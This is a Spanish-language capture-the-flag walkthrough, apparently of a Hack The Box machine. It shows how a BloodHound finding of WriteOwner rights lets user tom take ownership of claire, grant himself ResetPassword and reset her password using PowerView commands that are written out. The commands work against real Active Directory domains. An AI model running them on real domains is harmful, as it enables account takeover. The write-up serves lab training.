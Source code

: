 <figure><img src="../../../../../.gitbook/assets/3359_vmware_uxIm3QSXto.png" alt=""><figcaption></figcaption></figure>

### Abusing WriteOwner privileges (Changing a user password)

Revisando el archivo CSV, vemos que se trata de un reporte de BloodHound. Encontramos que el usuario que disponemos actualmente (tom@htb.local) dispone de permisos de _**WriteOwner**_ sobre el usuario (claire@htb.local).

Este permiso nos otorga la capacidad de cambiar la contraseña del usuario.

<figure><img src="../../../../../.gitbook/assets/3360_vmware_UE1kOM6PIn.png" alt=""><figcaption></figcaption></figure>

Volveremos al equipo con el usuario (tom@htb.local) y verificamos que en uno de los directorios nos encontramos con el _**PowerView.ps1**_, necesario para realizar la explotación del privilegio.

Procederemos a importar el PS1 en el equipo.

```powershell
. .\PowerView.ps1
```

<figure><img src="../../../../../.gitbook/assets/3362_vmware_dR9lWxLH9m.png" alt=""><figcaption></figcaption></figure>

Procederemos a convertirnos en propietarios del usuario (claire@htb.local), nos asignaremos permisos de "ResetPassword" y procederemos a modificar la contraseña del usuario.

{% code overflow="wrap" %}
```powershell
Set-DomainObjectOwner -identity claire -OwnerIdentity tom         

Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword                                                                                          

$cred = ConvertTo-SecureString "Password01!" -AsPlainText -Force  

Set-DomainUserPassword -Identity claire -AccountPassword $cred 
```
{% endcode %}
